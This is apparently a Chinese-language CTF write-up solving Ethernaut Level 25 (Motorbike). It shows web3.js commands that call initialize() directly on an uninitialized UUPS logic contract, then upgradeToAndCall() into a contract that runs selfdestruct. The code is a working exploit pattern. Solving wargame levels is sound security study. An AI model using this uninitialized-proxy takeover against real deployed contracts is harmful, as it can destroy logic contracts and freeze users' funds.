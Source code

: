参考：[Ethernaut Level 25: Motorbike (hashnode.dev)](https://baguioni.hashnode.dev/ethernaut-level-25-motorbike)

目的是更新为恶意合约并调用selfdestruct销毁Engine，可以通过 upgradeToAndCall 函数来载入恶意合约并调用

这需要通过 _authorizeUpgrade 函数的检查，也就是检查 sender == upgrader

可以通过 initialize() 函数来改变 upgrader 

那么需要通过 initialize() 函数的 initializer 修饰符，这里我们直接向Engine合约发送交易而不经过代理

而Engine逻辑合约没有初始化，这里未初始化能过修饰符

最终过程

先查看逻辑合约的地址，然后直接调用initialize()，然后调用upgradeToAndCall()更新并执行我们写的攻击合约自毁函数

```js
await web3.eth.getStorageAt(instance, "0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc")
engine = "engine_address"
initialize_data = web3.utils.sha3("initialize()").slice(0, 10)
await web3.eth.sendTransaction({from: player, to: engine, data: initialize_data})//改变upgrader

upgradeSignature = {
    name: 'upgradeToAndCall',
    type: 'function',
    inputs: [
        {
            type: 'address',
            name: 'newImplementation'
        },
        {
            type: 'bytes',
            name: 'data'
        }
    ]
}

exp = "attack_contract_address"

destruct_data = web3.utils.sha3("destruct()").slice(0, 10)
params = [exp, destruct_data]
upgrade_data = web3.eth.abi.encodeFunctionCall(upgradeSignature, params)
await web3.eth.sendTransaction({from: player, to: engine, data: upgrade_data})
```

恶意合约

```js
contract Exploit {
    function destruct() public {
        selfdestruct(payable(0));
    }
}
```



waiting to update……

